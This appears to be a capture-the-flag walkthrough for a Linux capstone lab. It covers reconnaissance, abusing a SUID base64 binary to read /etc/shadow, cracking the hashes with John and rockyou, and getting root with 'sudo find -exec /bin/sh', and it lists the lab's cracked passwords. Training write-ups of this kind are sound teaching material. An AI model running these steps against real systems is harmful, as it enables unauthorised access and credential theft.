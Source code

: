 # 🎯 **Linux Capstone Challenge**

---

## 🛰️ **Reconnaissance**

```bash

# List users with home directories
cat /etc/passwd | grep home

# Check system information
uname -a

# Check detailed OS version
cat /proc/version

# Check allowed sudo permissions
sudo -l

```

![image](https://github.com/user-attachments/assets/19cb771a-39db-4723-9b2e-7298be3f4a37)


---

## 🔍 **Finding SUID Binaries**

```bash

# Find all files with SUID bit set
find / -type f -perm -04000 -ls 2>/dev/null

# Alternative method (more specific)
find / -type f -perm -u=s -ls 2>/dev/null

```

![image](https://github.com/user-attachments/assets/17b7043e-fd6d-4e56-aea4-5f562f784c15)


---

## 🧬 **Exploiting Base64 SUID Binary**

Since `base64` has SUID permissions, we can **read protected files**:

```bash

# Read /etc/passwd
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode

# Read /etc/shadow
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode

```

➡️ **Save** the output into two files: `passwd.txt` and `shadow.txt`.

---

## 🛠️ **Cracking Passwords with John**

First, create a password hash file:

```bash

unshadow passwd.txt shadow.txt > passwords.txt

```

Then crack it using John and a wordlist:

```bash

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt

```

### ✅ Passwords Found:

| Username | Password |
| --- | --- |
| missy | Password1 |
| leonard | Penny123 |

![image](https://github.com/user-attachments/assets/389c916e-ee5e-4698-807b-9218b38fab13)


---

## 🔐 **Switch User to Missy**

```bash

su missy
cd /home/missy/Documents
cat flag1.txt

```

![image](https://github.com/user-attachments/assets/85c6ffcc-6532-4066-96e0-bc3a5625cdf2)


---

## 🚀 **Privilege Escalation (Missy User)**

Check sudo permissions:

```bash

sudo -l

```

**Exploit via `find` command:**

```bash

sudo find . -exec /bin/sh \; -quit

```

Move to root directory and capture second flag:

```bash

cd /home/rootflag
cat flag2.txt

```

![image](https://github.com/user-attachments/assets/d9d0ed5f-4eca-469b-b3d0-48838b464a35)


---

## 🛤️ **Alternative Exploit Path**

Another way to get a root shell via `find`:

![image](https://github.com/user-attachments/assets/7b3f9c62-9629-4e14-a159-085a4a84559b)


---

# ⚡ Summary

- ✅ Recon → Find users and OS
- ✅ SUID → Exploit base64 to read protected files
- ✅ Passwords → Cracked with John
- ✅ Privilege Escalation → Using `find` with sudo rights
- ✅ Flags Captured!
